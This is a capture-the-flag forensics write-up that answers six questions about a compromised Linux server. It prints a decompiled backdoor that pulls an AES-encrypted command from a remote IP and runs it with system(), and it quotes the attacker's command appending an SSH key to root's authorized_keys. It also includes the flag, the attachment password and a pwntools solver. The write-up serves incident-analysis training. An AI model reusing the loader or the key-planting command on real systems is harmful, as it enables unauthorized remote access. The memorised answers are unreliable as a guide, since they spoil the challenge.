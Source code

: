 ```yaml
---
title: hacked
categories: Forensics
authors: daffainfo
tags: 
draft: false
completedDuringEvent: true
submitted: true
points: 0
solves: 0
flags: GEMASTIK18{5230e7b97ebd5d1a23d956aae28fbb9d}
---
```


> Aku memiliki server linux dan sepertinya baru saja dihack... Bantu aku analisis attachment yang kuberikan dan jawab semua pertanyaan yang ada
>
> Pass: 3a42937cf98baa5dd9a78846f54ae43f Attachment: https://drive.google.com/file/d/1dPNJvubVKFbM43w9IPABvn26sDfB12-T/view?usp=sharing
>
> `165.232.133.53 9082`

---

This challenge involves a compromised Linux server, and we are tasked with analyzing the provided attachment to answer six questions about the attack.

## No 1

```
Question: Repositori yang digunakan threat actor
Format: https://example/path/to/repo
```

![alt text](image.png)

![alt text](image-1.png)

Based on the evidence from these screenshots, I determined that the threat actor used a GitHub repository at `https://github.com/walawe1337-oss/simple-python-server`.

Answer: `https://github.com/walawe1337-oss/simple-python-server`

## No 2

```
Question: Hash MD5 file yang bersifat malicious (Lower case)
Format: -
```

For the second question, I needed to find the MD5 hash of the malicious file. Upon examining the repository, I noticed that the current commit didn't contain anything suspicious. However, checking the commit history revealed one previous commits. The commit at https://github.com/walawe1337-oss/simple-python-server/commit/b478d30b0cc57a6e5099f5f01300b91f3b8c9391 contained the malicious file.

I downloaded this file and calculated its MD5 hash using CyberChef with the MD5 recipe. This gave me the hash value in lowercase as required by the question format.

Answer: `11e128c2bf2f82f4e966a0ec2ff072bb`

## No 3

```
Question: Key and IV yang digunakan untuk enkripsi
Format: key:iv
```

To find this, I needed to analyze the binary file from the attachment. When decompiling the binary, I found the following main function:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // rax
  int v5; // [rsp+Ch] [rbp-824h] BYREF
  int data_from_server; // [rsp+10h] [rbp-820h]
  int v7; // [rsp+14h] [rbp-81Ch]
  __int64 v8; // [rsp+18h] [rbp-818h]
  char v9[1024]; // [rsp+20h] [rbp-810h] BYREF
  char command[1032]; // [rsp+420h] [rbp-410h] BYREF
  unsigned __int64 v11; // [rsp+828h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  data_from_server = get_data_from_server("165.232.133.53", 0x3017u, v9, 1024);
  if ( data_from_server <= 0 )
    return 1;
  v7 = 0;
  v8 = EVP_CIPHER_CTX_new();
  v4 = EVP_aes_256_cbc();
  EVP_DecryptInit_ex(v8, v4, 0, "this_is_my_secret_aes_256_key!!!", "abcdef1234567890");
  EVP_DecryptUpdate(v8, command, &v5, v9, (unsigned int)data_from_server);
  v7 += v5;
  EVP_DecryptFinal_ex(v8, &command[v7], &v5);
  v7 += v5;
  command[v7] = 0;
  EVP_CIPHER_CTX_free(v8);
  system(command);
  return 0;
}
```

Looking at the `EVP_DecryptInit_ex` function call, I could see that the binary was using AES-256-CBC decryption with a hardcoded key and IV. The key is `"this_is_my_secret_aes_256_key!!!"` and the IV is `"abcdef1234567890"`.

Answer: `this_is_my_secret_aes_256_key!!!:abcdef1234567890`

## No 4

```
Question: IP dan port yang digunakan oleh penyerang
Format: ip:port
```

The fourth question asks for the IP and port used by the attacker. From the decompiled code, I could see the function call:

`data_from_server = get_data_from_server("165.232.133.53", 0x3017u, v9, 1024);`

The IP address is clearly visible as `"165.232.133.53"`, and the port is specified as `0x3017u`, which is hexadecimal for 12311 in decimal.

Answer: `165.232.133.53:12311`

## No 5

```
Question: Perintah yang dieksekusi threat actor (didalam binary)
Format: -
```

I needed to determine what command the threat actor executed through the binary. The relevant part of the code is:

```c
EVP_DecryptUpdate(v8, command, &v5, v9, (unsigned int)data_from_server);
v7 += v5;
EVP_DecryptFinal_ex(v8, &command[v7], &v5);
v7 += v5;
command[v7] = 0;
EVP_CIPHER_CTX_free(v8);
system(command);
```

When a binary calls `system(command)`, the kernel forks, then `execve("/bin/sh", ["sh", "-c", command], envp)` happens. The execve system call loads `/bin/sh` and passes the environment variables (`SHELL=..`, `PWD=...,` etc.) and the command string.

From the attached image, I could see the actual command that was executed:

![alt text](image-2.png)

Answer: `echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICUHM+DTrehpFANzpOzDPUJi1DYaK1xwMpMLz1QqwxJ0 kali@kali" >> /root/.ssh/authorized_keys`

## No 6

```
Question: Teknik MITRE ATT&CK berdasarkan pertanyaan sebelumnya
Format: T12345.123
```

Since the attack involved adding an SSH key to the authorized_keys file, I searched for "MITRE ATT&CK ssh authorized_keys" and found that this corresponds to the technique "Account Manipulation: SSH Authorized Keys" with ID [T1098.004](https://attack.mitre.org/techniques/T1098/004/).

Answer: `T1098.004`

```py
from pwn import *

r = remote('165.232.133.53', 9082)

r.sendline(b'https://github.com/walawe1337-oss/simple-python-server')
r.sendline(b'11e128c2bf2f82f4e966a0ec2ff072bb')
r.sendline(b'this_is_my_secret_aes_256_key!!!:abcdef1234567890')
r.sendline(b'165.232.133.53:12311')
r.sendline(b'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICUHM+DTrehpFANzpOzDPUJi1DYaK1xwMpMLz1QqwxJ0 kali@kali" >> /root/.ssh/authorized_keys')
r.sendline(b'T1098.004')

r.interactive()
```
